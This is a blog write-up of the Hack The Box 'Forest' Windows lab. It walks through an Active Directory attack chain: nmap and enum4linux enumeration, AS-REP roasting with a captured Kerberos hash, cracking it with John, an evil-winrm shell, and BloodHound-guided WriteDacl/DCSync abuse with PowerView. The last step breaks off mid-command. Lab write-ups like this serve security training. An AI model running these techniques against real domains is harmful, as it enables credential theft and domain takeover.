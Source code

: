 ```yaml
---
layout: post
title: Forest - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-14
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Forest is an easy Windows box with a focus on Active Directory recon rather than exploitation.

## Enumeration

First, similar to every other box, we begin with a humble nmap scan. Because this is a Windows machine, we will need to add `-Pn` to the scan.

```text
# Nmap 7.92 scan initiated as: nmap -sC -sV -p- -o allnmap -v -Pn --min-rate 1000 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.051s latency).
Not shown: 65514 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-02-08 04:47:23Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Given we have `LDAP port 389` we can use `Enum4Linux` to enumerate this LDAP service for users.

```text
$ enum4linux -a 10.10.10.161 2> /dev/null
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Fantastic! We have a list of users we can use against other tools to see if we can get any user hashes. We can clean up this list with a simple one liner: `cat newusers| tr -d "[]" | awk -F: {'print $2'} | awk -F" " '{print $1}' > cleanusers`

```Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Perfect! Now we have a clean user list to run against other tools.

## Foothold

### Getting User Hashes

We can use this new user list with Impacket's `GetNPUsers.py` or `Impacket-GetNPUsers`. GetNPUsers exploits users without pre-authentication enabled, which would allow us to grab their account password hash.

```shell
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 -usersfile cleanusers htb.local/
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
.
.
.
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:8d49b0369104b38bd97f517a8c440344$530b2549fafde7dc9328efc978068556cab78af8ec4afc3025f414a367552831ce78bf76b6454474fb89a3fa93c8a6665300c45490e886dd3d3110d2f0893cb361161aab3b82518234f3e5b12d045c1ad9aea090566f71dc0c2d2a770505950f3dc263635e4abd658b9f118962fc1b33e170f6926ce28b63669a24e23c9d7747d60292004d601f4696f8cfa0f6a7505d481dc7b3b544e7534b8bf1a6ca3ba19c9f02e6c23a6624a2af2ee7c9d3fdf03b7e5af970436aba0b42293f53d35eb36519b08d22d11bc052626928206f787675d7244185ea5f11f2658f9ca4d7e79a40853f1dea796d
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Unfortunately for Alfresco but fortunately for us, svc-alfresco does not have pre-authentication enabled. We can put this output into a new file and pass it onto a cracking tool such as `John`

### Cracking Those Hashes

`John`, or otherwise known as `John the Ripper`, is a password brute force tool ot crack hashes and reveal their passwords. We can crack the hash from svc-alfresco with the following command:

```shell
$ john alfresco_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)

```

### Shell

Using Evil-WinRM we can use the credentials to log into a Windows Remote Management shell as the svc-alfresco user.

```shell
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> echo 'im in'
> im in
```

## Bloodhound

I used Bloodhound to enumerate this machine and find relationships between the users and groups. To do this you must first upload SharpHound.exe to the remote machine through Evil-WinRM and collect all the information you can.

![SharpHound](https://mitchelldstein.github.io/assets/images/Forest/SharpHound.png)

To get the created json files off the machine, you can use Impacket-SmbServer and connect to it through Evil-WinRM.

Opening Bloodhound and importing the graphs provides the following graph

![BloodHound](https://mitchelldstein.github.io/assets/images/Forest/BloodHound.png)

WriteDacl can be exploited to give access to DCSync, Which can allow the owned user to be exploited by Impacket-SecretsDump to dump the user hashes.

## Exploitation

1. Create a new user and add them to the "Exchange Windows Permissions" group
   ![New User](https://mitchelldstein.github.io/assets/images/Forest/NewUser.png)
2. Upload Powerview.ps1, which can be found [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

   ```shell
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload <path-to-file>/PowerView.ps1
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module PowerView.ps1
   ```

3. Perform the DCsync exploit with PowerView.ps1 (Both $SecPassword and user password must be the same)

   ```shell
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-String '
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 

   ```
